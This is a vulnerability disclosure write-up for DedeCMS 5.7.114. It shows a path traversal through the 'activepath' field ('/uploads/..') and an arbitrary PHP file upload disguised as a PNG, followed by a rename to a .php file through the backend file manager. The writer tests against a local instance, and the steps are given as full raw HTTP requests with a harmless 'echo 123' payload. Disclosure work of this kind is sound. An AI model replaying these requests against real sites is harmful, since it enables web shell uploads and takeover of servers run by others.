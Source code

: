 # Dedecms Path traversal+arbitrary file upload(other enter)

​	The zip compression file upload function of the Dreamweaver backend software manager has vulnerabilities such as path traversal and arbitrary file upload

![image-20240708130926507](E:\360MoveData\Users\HideInDarkness\Desktop\dedecms\dedecms\V5.7.114-UTF8\V5.7.114-UTF8ExploitThree.assets\image-20240708130926507.png)

​	E: \ seebug \ php study_p is the root directory of my current web integration environment deployment. The current project is deployed in the 127.0.0.1-9600 folder under the WWW path.This time I chose E:\seebug\phpstudy_pro\WWW\127.0.0.1_9600\ as the destination path for file upload, because PHP scripts can be parsed in this fileWS

​	visit http://127.0.0.1:9600/dede/ And log in to the backend of dedecms to create a new atlas list http://127.0.0.1:9600/dede/album_add.php The interface is shown below

![image-20240712135020653](E:\360MoveData\Users\HideInDarkness\Desktop\dedecms\dedecms\V5.7.114-UTF8\V5.7.114-UTF8ExploitThree.assets\image-20240712135020653.png)

​	vulnerability mainly appears at the compressed file upload location

![image-20240712145034349](E:\360MoveData\Users\HideInDarkness\Desktop\dedecms\dedecms\V5.7.114-UTF8\V5.7.114-UTF8ExploitThree.assets\image-20240712145034349.png)

```http
POST /include/dialog/select_images_post.php HTTP/1.1
Host: 127.0.0.1:9600
Content-Length: 1971
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:9600
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3Mt7CAkNjyzWYBFm
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:9600/include/dialog/select_images.php?f=form1.picname&noeditor=yes&imgstick=undefined
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=9fvqmoiniui5peunoom189bb23; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=1ebb58ecac915613; _csrf_name_2f6ef1b1=267c4d98da681002ab955b10f8e0e3c3; _csrf_name_2f6ef1b11BH21ANI1AGD297L1FF21LN02BGE1DNG=1d4b8a59aa88baa3; DedeLoginTime=1720418572; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=9c25d28547e20a28; ENV_GOBACK_URL=%2Fdede%2Fcontent_list.php
Connection: close

------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="noeditor"

yes
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="activepath"

/uploads/..
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="f"

form1.picname
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="v"

picview
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="imgstick"

undefined
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="CKEditorFuncNum"

1
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="job"

upload
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="imgfile"; filename="0.php.png"
Content-Type: image/png

<?php echo 123;?>
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="iwidth"

240
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="iheight"

180
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="sb1"

确定
------WebKitFormBoundary3Mt7CAkNjyzWYBFm--
```

​	`Select_images_post. php 'did not perform sufficient filtering on the newname parameter, so it is possible to bypass the file suffix blacklist by modifying the value of' newname 'to a file name with a suffix of' php ', and combined with the first two path traversal vulnerabilities to achieve arbitrary file upload vulnerabilities

![image-20240708150758976](E:\360MoveData\Users\HideInDarkness\Desktop\dedecms\dedecms\V5.7.114-UTF8\V5.7.114-UTF8ExploitThree.assets\image-20240708150758976.png)

​	Here, you can also use the built-in file management system in the 'dedecms' backend to rename files and enable them to parse and run normally.

```http
POST /dede/file_manage_control.php HTTP/1.1
Host: 127.0.0.1:9600
Content-Length: 147
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:9600
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: iframe
Referer: http://127.0.0.1:9600/dede/file_manage_view.php?fmdo=rename&filename=inde1x.Php&activepath=%2Fuploads
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=9fvqmoiniui5peunoom189bb23; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=1ebb58ecac915613; _csrf_name_2f6ef1b1=ef87ce85f5d16c9875d2c6089936835b; _csrf_name_2f6ef1b11BH21ANI1AGD297L1FF21LN02BGE1DNG=c1e0489e3c20f4bf; last_vtime=1720421835; last_vtime1BH21ANI1AGD297L1FF21LN02BGE1DNG=070401ac415b7cb7; last_vid=admin; last_vid1BH21ANI1AGD297L1FF21LN02BGE1DNG=501af9a85db1a161; OrdersId=9448BQQIAFJRAgIFAQIIXQINU1cPAAFRVAIGAwY2FGYEVQAFAAoGVlAAYHsGBgY; ENV_GOBACK_URL=%2Fmember%2Fcontent_list.php%3Fchannelid%3D6; DedeLoginTime=1720426605; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=629ca267a38c9755; Shop_De_85=626cVlNVBgkHU1FVU1QBAAFTDwVTCVJXUgkDUlNbAV8OB0QWEQxVXApTRxANCxBFCkVVRxpfRFtcARdACkYJBwsXJ1VGXQYcDyJEIFtHJXMSIXYXJgkUdycVcHBGd1ZHDgJHXiFAcw0SISBAWyE; Shop_De_78=b741AwUHVAQBCAIBUlIFVwhVWg8GXwMEAAVaClRQAgUCARBDR14HUQwNAhcXWFkVQgxHc1NDCXETdyAUBkwfVkBUCwITQw1AXV0PFCcFFVkBFFp3QCMFF3dyRgsiHCMNEHhyFgwHQXECHQoBRw5y
Connection: close

fmdo=rename&activepath=%2F240708&filename=1-240FQ50614S6.png&oldfilename=1-240FQ50614S6.png&newfilename=index1.php&imageField1.x=31&imageField1.y=6
```

![image-20240708165441039](E:\360MoveData\Users\HideInDarkness\Desktop\dedecms\dedecms\V5.7.114-UTF8\V5.7.114-UTF8ExploitThree.assets\image-20240708165441039.png)

![image-20240708164949322](E:\360MoveData\Users\HideInDarkness\Desktop\dedecms\dedecms\V5.7.114-UTF8\V5.7.114-UTF8ExploitThree.assets\image-20240708164949322.png)

​	Successfully modified '127.0.0.1,9600 \ 240708 \ 1-240FQ50614S6. png' to '127.0.0.1,9600 \ 240708 \ index1php'`

![image-20240708165348465](E:\360MoveData\Users\HideInDarkness\Desktop\dedecms\dedecms\V5.7.114-UTF8\V5.7.114-UTF8ExploitThree.assets\image-20240708165348465.png)
